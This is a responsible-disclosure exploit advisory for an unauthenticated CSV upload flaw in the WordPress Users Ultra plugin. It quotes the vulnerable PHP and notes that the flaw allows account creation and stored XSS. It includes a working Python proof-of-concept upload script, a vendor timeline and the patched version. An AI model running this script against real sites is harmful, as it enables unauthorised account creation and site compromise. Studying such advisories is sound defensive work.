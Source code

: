 * Exploit Title: WordPress Users Ultra Plugin [Unrestricted File Upload]
* Discovery Date: 2015/10/27
* Public Disclosure Date: 2015/12/01
* Exploit Author: Panagiotis Vagenas
* Contact: https://twitter.com/panVagenas
* Vendor Homepage: http://usersultra.com
* Software Link: https://wordpress.org/plugins/users-ultra/
* Version: 1.5.50
* Tested on: WordPress 4.3.1
* Category: webapps

Description
================================================================================

WordPress plugin `Users Ultra Plugin` suffers for an unrestricted file upload vulnerability.

Any user (registered or not) can exploit a misbehavior of the plugin in order to upload csv files to the infected website. Although the plugin checks file extension using an extensions white-list (in this case only csv files are white-listed), no other checks (mime, size etc) are taking place. This alone can expose the infected website to a variety of attacks, please see [OWASP Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload) to get an idea.

Details
================================================================================

The plugin workflow that could allow a malicious user to exploit this misbehavior is as follows:

1. Upon initialization of the plugin (anytime if it is activated) an instance of `XooUserUser` class is created
2. In the constructor of `XooUserUser` class a check for POST variable `uultra-form-cvs-form-conf` is taking place
    file `wp-content/plugins/users-ultra/xooclasses/xoo.userultra.user.php` lines 19-23
    ```php
    if (isset($_POST['uultra-form-cvs-form-conf'])) 
    {
	    /* Let's Update the Profile */
	    $this->process_cvs($_FILES);				
    }
    ```
3. Assuming the POST variable `uultra-form-cvs-form-conf` has been set in the request, the method `XooUserUser::process_cvs()` is called.
4. `XooUserUser::process_cvs()` method process every file in $_FILES super-global by only making a check if the file has a `csv` extension

In addition we mark the following points:

1. A malicious user can create and activate user accounts by exploiting this vulnerability if `$_POST["uultra-activate-account"]` is set to `active`
2. A welcome email is send if `$_POST["uultra-send-welcome-email"]` is set to 1
3. The csv files uploaded to the server are stored in a directory (`wp-content/usersultramedia/import` by default) accessible by anyone
4. Any additional columns present in the csv file are stored in `usermeta`
5. No sanitization for values in csv file can easily lead to a Persistent XSS attack, so an attacker can compromise the whole site

PoC
================================================================================

The following Python3 script forms a csv file and uploads it to a site

```python3
#!/usr/bin/python3
import requests
import csv
import tempfile

url = 'http://example.com/'

postData = {
    'uultra-form-cvs-form-conf': 1,
    'uultra-send-welcome-email': 1,
    'uultra-activate-account': 'pending'
}

csvFileHeader = ['user name', 'email', 'display name', 'registration date', 'first name', 'last name', 'age', 'country']
csvFileRow = ['userName', 'email@example.com', 'User Name', '1/1/1', 'User', 'Name', '100', 'IO']

csvFile = tempfile.NamedTemporaryFile(mode='a+t', suffix='.csv')

wr = csv.writer(csvFile, quoting=csv.QUOTE_ALL, delimiter=',')

wr.writerow(csvFileHeader)
wr.writerow(csvFileRow)

csvFile.seek(0)

files = {'file.csv': csvFile}

r = requests.post(url, data=postData, files=files)

exit(0)
```

Timeline
================================================================================

2015/10/29 - Vendor notified via email
2015/11/11 - Vendor notified via contact form in his website
2015/11/13 - Vendor notified via support forums at wordpress.org
2015/11/14 - Vendor responded and received report through email
2015/11/15 - Vendor responded
2015/11/15 - Patch released

Solution
================================================================================

Update to version 1.5.59